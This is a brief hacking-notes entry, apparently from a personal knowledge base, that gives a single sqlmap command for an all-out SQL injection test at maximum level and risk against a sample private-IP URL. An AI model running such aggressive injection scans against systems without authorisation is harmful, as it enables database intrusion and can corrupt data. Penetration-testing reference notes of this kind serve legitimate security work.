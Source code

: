 # sqlmap Test All (Default Settings, High Stress)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

# References
- [20221003150709](/zet/20221003150709/) sqlmap
- ~/kb/hacking/commands/sqlmap-commands.md

Tags:
    #assorted

